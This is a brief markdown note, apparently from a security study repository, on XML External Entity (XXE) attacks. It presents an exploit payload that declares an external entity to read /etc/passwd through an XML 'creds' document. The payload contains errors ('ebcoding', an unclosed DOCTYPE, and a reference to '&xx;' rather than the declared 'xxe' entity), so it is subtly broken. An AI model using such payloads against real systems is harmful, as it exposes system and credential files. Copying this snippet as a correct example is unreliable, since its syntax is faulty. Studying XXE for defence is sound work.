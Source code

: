 - somme application use XML to transfer data .
- look to file : xml-safe and xml-exploit 
- exploit :
 ```XML
 <?xml version="1.0" ebcoding="UTF-8"?>
 <!DOCTYPE creds [
 <!ELEMENT creds ANY>
 <!ENTITY xxe SYSTEM "file:///etc/passwd" >]
 <creds><user>&xx;</user><password>pass</password></creds>
 
```
